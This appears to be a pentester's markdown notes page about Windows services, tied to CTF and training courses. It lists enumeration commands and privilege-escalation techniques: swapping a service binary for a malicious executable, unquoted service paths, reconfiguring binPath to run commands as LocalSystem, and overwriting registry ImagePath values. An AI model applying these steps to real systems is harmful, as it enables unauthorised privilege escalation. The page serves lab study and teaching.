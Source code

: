 # Windows services

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

You can learn more about Windows services [here](/operating-systems/windows/_knowledge/index.md#windows-services).

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```
</div><div>

* 🔑 To view the permissions of the user on a service

```shell!
PS> .\PsService.exe security service_name
PS> sc.exe sdshow service_name
PS> accesschk.exe ./xxx.exe -v
PS> accesschk.exe /accepteula -quvcw ./xxx.exe
```

🔥 In CTFs, you may be able to start/stop the service manually, while you may also do that if you are a [server operator](privs.md#server-operators).

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

🍀 Notable services: `vss`, `dns`, `Spooler`, `wuauserv`, `AppReadiness`, etc.
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Insecure permissions

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

The current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

<br>

#### Unquoted Service Path

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

If the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

You can find such services using:

```shell!
CMD> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

```shell!
PS> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | Where-Object {$_ -notmatch '".*?"' -and $_ -match '\S'}
```
</div><div>

#### Insecure Service Permissions

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

It occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe obj= LocalSystem
```

A common approach to execute a command is to use:

```ps
PS> sc.exe config XXX binPath= "cmd /c <some command here>"
PS> sc.exe config XXX binPath= "C:\windows\system32\cmd.exe /c <some command here>"
PS> sc.exe start XXX # fails but executed the command
```

<br>

#### Insecure Registry

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Windows stores in `hklm\System\CurrentControlSet\services` variable service configurations. ImagePath reference the path to the executable related to a service. We may be able to override some values:

Detect

```shell!
PS> .\accesschk.exe /accepteula -kvuqsw hklm\System\CurrentControlSet\services
```

Exploit

```shell!
PS> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\XXX -Name "ImagePath" -Value "<some command here>"
PS> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\XXX -Name "ImagePath" -Value "C:/<path_to_executable>"
```

<br>

#### Well-Known CVEs

* [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* It's recommended to use service accounts for services.
* Most services run with LocalSystem privileges by default
* From the SCM, we can configure an application to be executed if a service fails. If one was configured, it can be exploited.
</div><div>
</div></div>